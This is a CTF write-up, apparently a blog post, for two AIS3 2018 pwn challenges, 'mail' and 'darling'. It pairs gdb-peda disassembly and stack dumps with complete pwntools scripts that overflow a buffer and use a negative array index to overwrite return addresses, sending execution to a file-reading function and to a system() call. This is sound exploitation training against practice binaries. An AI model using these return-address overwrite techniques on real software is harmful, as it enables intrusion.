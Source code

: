 ```yaml
---
title: pwn
date: 2018-08-01 21:11:44
tags:
  - CTF
  - AIS3
  - pre exam
categories:
  - CTF
  - AIS3
  - 2018
---
```


## mail
`disass` shows nothing.
`objdump -d ./mail | less` found a function called `reply`.
Use `gdb` check it.

```sh=
gdb-peda$ disass reply
Dump of assembler code for function reply:
   0x0000000000400796 <+0>:     push   rbp
   0x0000000000400797 <+1>:     mov    rbp,rsp
   0x000000000040079a <+4>:     sub    rsp,0x10
   0x000000000040079e <+8>:     mov    edi,0x400928
   0x00000000004007a3 <+13>:    call   0x400610 <puts@plt>
   0x00000000004007a8 <+18>:    mov    edi,0x40095b
   0x00000000004007ad <+23>:    mov    eax,0x0
   0x00000000004007b2 <+28>:    call   0x400630 <printf@plt>
   0x00000000004007b7 <+33>:    mov    esi,0x400970
   0x00000000004007bc <+38>:    mov    edi,0x400972
   0x00000000004007c1 <+43>:    call   0x400680 <fopen@plt>
   0x00000000004007c6 <+48>:    mov    QWORD PTR [rbp-0x8],rax
   ...
End of assembler dump.
gdb-peda$ 
```
`fopen` so make a return address of `main` change to reply.

Enter `main` function and check it has two variable to cover `RET` of `main`.
Make a break point at first variable input.
```sh=
gdb-peda$ disass
Dump of assembler code for function main:
   ...
   0x0000000000400853 <+81>:    call   0x400630 <printf@plt>
   0x0000000000400858 <+86>:    lea    rax,[rbp-0x20]
   0x000000000040085c <+90>:    mov    rdi,rax
   0x000000000040085f <+93>:    mov    eax,0x0
   0x0000000000400864 <+98>:    call   0x400650 <gets@plt>
   ...
gdb-preda$ b *0x0000000000400864
Breakpoint 2 at 0x400864
gdb-peda$ info b
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x0000000000400806 <main+4>
        breakpoint already hit 1 time
2       breakpoint     keep y   0x0000000000400864 <main+98>
gdb-peda$ 
```

Execute program and get `main` function's `RBP` and `RSP` address which is ..
```sh
RBP: 0x7fffffffdcd0 --> 0x4008a0 (<__libc_csu_init>:    push   r15)
RSP: 0x7fffffffd990 --> 0x7ffff7a1dff8 --> 0x6c5f755f72647800 ('')
```

Hit `continue` to enter some dummy data in order to locat variable's address in `stack`. (I put a bouch of `'A'`.)
Locate `0x....dbd0` in stack.
```sh=
gdb-preda$ stack 120
...
0792| 0x7fffffffdca8 --> 0x0
0800| 0x7fffffffdcb0 ('A' <repeats 32 times>)
0808| 0x7fffffffdcb8 ('A' <repeats 24 times>)
0816| 0x7fffffffdcc0 ('A' <repeats 16 times>)
0824| 0x7fffffffdcc8 ("AAAAAAAA")
0832| 0x7fffffffdcd0 --> 0x400800 (<reply+106>: leave)
0840| 0x7fffffffdcd8 --> 0x7ffff7a2d830 
                    (<__libc_start_main+240>:       mov    edi,eax)
0848| 0x7fffffffdce0 --> 0x0 
...
```

So the variable is at `0x....dcb0`, calculate offset with `RBP(0x....dcd0)` is 32 Bytes.
And the `RTN` is front of `RBP` which is `$rbp - 0x8`, so we need to cover `32 + 8` bytes from first variable.

Find the function `reply` its address is...
```sh=
gdb-peda$ disass reply
Dump of assembler code for function reply:
   0x0000000000400796 <+0>:     push   rbp
...
```

That every thing. cover dummy data with 40 bytes and input `reply` function's address `0x....400796`
Wrote a small python...
```python=
from pwn import *

p = process('./mail')
#p = remote('104.199.235.135', 2111)
p.sendline('A' * (32 + 8) + '\x96\x07\x40\x00\x00\x00\x00\x00')
print(p.recv())
p.interactive()
```

---

## darling
Use array index to jump to variable `permission_code` and change to `6666`.
and cover function `read()` it's return address to function `debug()`.
```sh=
gdb-peda$ disass debug
Dump of assembler code for function debug:
   0x00000000004007d6 <+0>:     push   rbp
   0x00000000004007d7 <+1>:     mov    rbp,rsp
   0x00000000004007da <+4>:     mov    edi,0x400d88
   0x00000000004007df <+9>:     call   0x400660 <system@plt>
   0x00000000004007e4 <+14>:    nop
   0x00000000004007e5 <+15>:    pop    rbp
   0x00000000004007e6 <+16>:    ret    
End of assembler dump.
gdb-peda$ 
```

Use `gdb` make a break point at `   0x0000000000400c8f <+1192>:  call   0x400680 <read@plt>`
`skip` nto read function and check it's return address to found stack address.

```sh=
gdb-peda$ stack 30
0000| 0x7fffffffdb68 --> 0x400c94 
                    (<main+1197>: mov    eax,DWORD PTR [rbp-0x14c])
0008| 0x7fffffffdb70 --> 0x0 
0016| 0x7fffffffdb78 --> 0x800000001 
0024| 0x7fffffffdb80 --> 0x500000000 
0032| 0x7fffffffdb88 --> 0x1a0a 
0040| 0x7fffffffdb90 --> 0x2 
0048| 0x7fffffffdb98 --> 0x10 
0056| 0x7fffffffdba0 --> 0x10 
0064| 0x7fffffffdba8 --> 0x2 
0072| 0x7fffffffdbb0 --> 0xf 
0080| 0x7fffffffdbb8 --> 0x38 ('8')
0088| 0x7fffffffdbc0 --> 0x186 
0096| 0x7fffffffdbc8 --> 0x29a 
0104| 0x7fffffffdbd0 --> 0x22c 
0112| 0x7fffffffdbd8 --> 0xd6 
0120| 0x7fffffffdbe0 ("Strelitzia")
0128| 0x7fffffffdbe8 --> 0x6169 ('ia')
0136| 0x7fffffffdbf0 ("Delphinium")
0144| 0x7fffffffdbf8 --> 0x6d75 ('um')
0152| 0x7fffffffdc00 ("Argentea")
0160| 0x7fffffffdc08 --> 0x0 
0168| 0x7fffffffdc10 --> 0x617473696e6547 ('Genista')
0176| 0x7fffffffdc18 --> 0x0 
0184| 0x7fffffffdc20 ("Chlorophytum")
0192| 0x7fffffffdc28 --> 0x6d757479 ('ytum')
--More--(25/30)  
```

I select first element which is `Strelitzia` which stack address is `0x....dbe0` to offset to return address whichs `0x....db8`, and the offset range is 120 byte.
The char array store `Strelitzia` is a 16 bytes long element. so each index I decrease would cause memory address move backward 16 byte.
At least I have to backward 16 * 8(128 byte) to cover return address.
But need more 8 dummy character to fit into extra backward.

```python=
from pwn import *

#p = process('./darling')
p = remote('104.199.235.135', 2112)
p.sendlineafter('Index: ', '-1')
p.sendlineafter('Code: ', '6666')
p.sendlineafter('Are you sure ? (yes:1 / no:0) ', '0')
p.sendlineafter('Index: ', '0')
p.sendlineafter('Code: ', '2')
p.sendlineafter('Are you sure ? (yes:1 / no:0) ', '0')
p.sendlineafter('Index: ', '1')
p.sendlineafter('Code: ', '16')
p.sendlineafter('Are you sure ? (yes:1 / no:0) ', '1')

p.sendlineafter('Which FRANXX do you wnat to use ? ', '-8')
p.sendlineafter(
    'New name for this FRANXX: ',
    'A' * 8 + p64(0x00000000004007D6)
)
p.interactive()
```
